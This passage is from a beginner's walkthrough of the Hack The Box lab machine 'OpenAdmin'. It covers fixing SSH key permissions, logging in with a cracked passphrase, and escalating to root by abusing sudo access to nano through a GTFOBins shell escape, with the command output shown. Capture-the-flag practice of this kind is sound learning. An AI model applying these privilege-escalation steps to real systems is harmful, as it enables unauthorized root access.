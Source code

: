 ```
tester@kali:~/Desktop$ ssh -i rsa joanna@10.10.10.171
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@ WARNING: UNPROTECTED PRIVATE KEY FILE! @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for ‘rsa’ are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "rsa": bad permissions
joanna@10.10.10.171's password:
Permission denied, please try again.
joanna@10.10.10.171's password: 
```

From the above details provided, what I thought that maybe the permission to the key file were too open and that's why SSH was not accepting that file. So, I decided to change the permissions setting for that file:

```
tester@kali:~/Desktop$ chmod go-r rsa 
```

This removed the read permission for group and others and then I tried to run the SSH command again. This time it worked and asked for the passphrase to which I entered the key that I decrypted i.e. `bloodninjas`. And I got the access to joanna's account as well. As soon as I got the access, the first thing that came to my mind was to submit the user hash that was stored on 'Desktop'. I did that and now only one thing was remaining which was root access. I did `sudo -l` to figure out all the permission joanna had and there I was surprised to see that joanna had sudo level access to `/bin/nano` and `/opt/priv`. I researched a bit about gaining root level access by using `nano` and found a very useful website called [GTFOBins](https://gtfobins.github.io/gtfobins/nano/).

So, I ran the nano command pointing towards priv file with sudo and ran the commands as mentions on the website given above:

```
joanna@openadmin:~$ sudo nano /opt/priv
sudo nano
^R^X
reset; sh 1>&0 2>&0
Here, I simply ran the command:
# whoami
root
# pwd
/home/joanna
# cd /root
# ls
root.txt
```

And there it was ‘root.txt’!!!!! It almost took me an entire day along with hints from Reddit to break the machine (event though it was an easy one). But I am happy as this was my 1st HTB machine!!!!!



### Some Key Points to Take Away
